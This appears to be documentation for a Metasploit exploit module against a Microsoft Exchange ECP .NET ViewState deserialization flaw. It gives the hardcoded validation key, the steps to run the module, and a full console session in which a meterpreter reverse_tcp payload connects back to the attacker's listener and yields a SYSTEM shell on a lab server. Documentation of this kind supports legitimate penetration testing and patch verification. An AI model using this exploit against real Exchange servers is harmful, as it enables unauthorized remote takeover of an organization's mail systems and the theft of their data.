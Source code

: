 ## Vulnerable Application

This module exploits a .NET serialization vulnerability in the Exchange Control
Panel (ECP) web page. The vulnerability is due to Microsoft Exchange Server not
randomizing the keys on a per-installation basis resulting in them using the
same validationKey and decryptionKey values. With knowledge of these values, an
attacker can craft a special viewstate to cause an OS command to be executed by
NT_AUTHORITY\SYSTEM using .NET deserialization.

The default ViewState validation key is: `cb2721abdaf8e9dc516d621d8b8bf13a2c9e8689a25303bf`.

This module requires the user to authenticate to Exchange. At a minimum the user
must be a member of the `Domain Users` group and have a mailbox configured on
the Exchange server.

The crafted ViewState must be submitted to the server in a GET request (POST
requests will not work) which introduces a size restriction on the contents. Due
to this, OS commands are limited to a length of approximately 450 which accounts
for the overhead of the serialization data. The OS command must also be XML
encoded which increases the size as well. The .NET deserialization used is the
"TextFormattingRunProperties" chain from the [ysoserial.net][1] project.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/exchange_ecp_viewstate`
  1. Set the `RHOSTS`, `USERNAME` and `PASSWORD` options
  4. Do: `run`
  5. You should get a shell.

## Options

### DOMAIN

The authentication realm for the corresponding `USERNAME` argument

### USERNAME

Username to log in with

### Password

Password to log in with

## Scenarios

### Exchange 2016 on Server 2012 x64

For example:

```
msf5 > use exploit/windows/http/exchange_ecp_viewstate
msf5 exploit(windows/http/exchange_ecp_viewstate) > set RHOSTS 192.168.159.129
RHOSTS => 192.168.159.129
msf5 exploit(windows/http/exchange_ecp_viewstate) > set USERNAME msflab.local\\jdoe
USERNAME => msflab.local\jdoe
msf5 exploit(windows/http/exchange_ecp_viewstate) > set PASSWORD Password1
PASSWORD => Password1
msf5 exploit(windows/http/exchange_ecp_viewstate) > set TARGET 1
TARGET => 1
msf5 exploit(windows/http/exchange_ecp_viewstate) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/http/exchange_ecp_viewstate) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf5 exploit(windows/http/exchange_ecp_viewstate) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Command Stager progress -   3.61% done (449/12424 bytes)
[*] Command Stager progress -   7.23% done (898/12424 bytes)
[*] Command Stager progress -  10.84% done (1347/12424 bytes)
[*] Command Stager progress -  14.46% done (1796/12424 bytes)
[*] Command Stager progress -  18.07% done (2245/12424 bytes)
[*] Command Stager progress -  21.68% done (2694/12424 bytes)
[*] Command Stager progress -  25.30% done (3143/12424 bytes)
[*] Command Stager progress -  28.91% done (3592/12424 bytes)
[*] Command Stager progress -  32.53% done (4041/12424 bytes)
[*] Command Stager progress -  36.14% done (4490/12424 bytes)
[*] Command Stager progress -  39.75% done (4939/12424 bytes)
[*] Command Stager progress -  43.37% done (5388/12424 bytes)
[*] Command Stager progress -  46.98% done (5837/12424 bytes)
[*] Command Stager progress -  50.60% done (6286/12424 bytes)
[*] Command Stager progress -  54.21% done (6735/12424 bytes)
[*] Command Stager progress -  57.82% done (7184/12424 bytes)
[*] Command Stager progress -  61.44% done (7633/12424 bytes)
[*] Command Stager progress -  65.05% done (8082/12424 bytes)
[*] Command Stager progress -  68.67% done (8531/12424 bytes)
[*] Command Stager progress -  72.28% done (8980/12424 bytes)
[*] Command Stager progress -  75.89% done (9429/12424 bytes)
[*] Command Stager progress -  79.51% done (9878/12424 bytes)
[*] Command Stager progress -  82.74% done (10279/12424 bytes)
[*] Command Stager progress -  86.15% done (10703/12424 bytes)
[*] Command Stager progress -  89.43% done (11111/12424 bytes)
[*] Command Stager progress -  92.91% done (11543/12424 bytes)
[*] Command Stager progress -  96.28% done (11962/12424 bytes)
[*] Sending stage (206403 bytes) to 192.168.159.129
[*] Command Stager progress -  99.84% done (12404/12424 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.129:17626) at 2020-03-02 10:40:52 -0500
[*] Command Stager progress - 100.00% done (12424/12424 bytes)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : EXCHANGE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > 
```

[1]: https://github.com/pwntester/ysoserial.net
